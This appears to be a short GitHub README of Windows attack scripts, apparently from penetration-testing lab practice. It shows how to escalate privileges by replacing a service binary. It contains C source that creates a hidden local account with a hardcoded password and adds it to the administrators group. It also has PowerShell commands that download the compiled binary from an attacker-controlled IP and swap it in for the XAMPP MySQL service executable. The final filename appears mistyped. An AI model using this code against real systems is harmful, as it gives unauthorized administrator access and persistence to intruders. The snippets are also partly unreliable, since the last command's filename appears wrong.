 # Scripts_Windows


## Add user to the system via Leavrginy mysql service. 
Indicator:
![image](https://github.com/MalekAlthubiany/Scripts_Windows/assets/127455300/6ce3ca29-2b07-48a9-a59e-e4df5648a6c5)
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
## Simply replace the service
```
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exx
```
